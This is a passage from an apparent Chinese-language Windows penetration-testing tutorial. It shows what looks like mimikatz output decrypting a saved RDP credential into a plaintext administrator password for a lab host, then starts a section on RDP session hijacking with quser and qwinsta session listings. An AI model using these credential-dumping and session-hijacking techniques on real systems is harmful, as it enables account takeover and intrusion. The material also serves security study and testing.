 ```console
 * volatile cache: GUID:{52c3460d-2e8b-4764-957c-57185d4d62b2};KeyHash:b53ebc9462b9cf6284f116b46d3a869091cc398f;Key:available
 * masterkey     : 9458e389d675c03e3134abca123a5f97b0344db9ec7eb77ca65e962ed238d3d9d62ba12e9b227587df8f430762790758c7a1dcf8f0baad587c0301305e088205
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000e0 - 224
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 2023-11-24 7:30:06
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=TERMSRV/192.168.70.130
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : DESKTOP-TEST\administrator
  CredentialBlob : Admin@123
  Attributes     : 0

```

TargetName - 目标主机；UserName - 用户名；CredentialBlob - 解密后的明文密码。

## RDP Session Hijacking

对于开启远程桌面服务的 Windows Server 系统，当有多个不同用户登录该系统时，会产生多个 RDP 会话。在劫持其它登录的用户时，会将目标用户挤下去。（非服务器版本的 Windows 系统默认只允许一个账户登录）

---

获取每个用户对应的会话信息：

```console
C:\Users\Administrator\Desktop>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#3           2  Active          .  9/27/2023 10:21 PM
 test                  rdp-tcp#4           3  Active          8  9/27/2023 10:28 PM

C:\Users\Administrator\Desktop>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>rdp-tcp#3         Administrator             2  Active
 rdp-tcp#4         test                      3  Active
 console                                     4  Conn
 rdp-tcp                                 65536  Listen
```
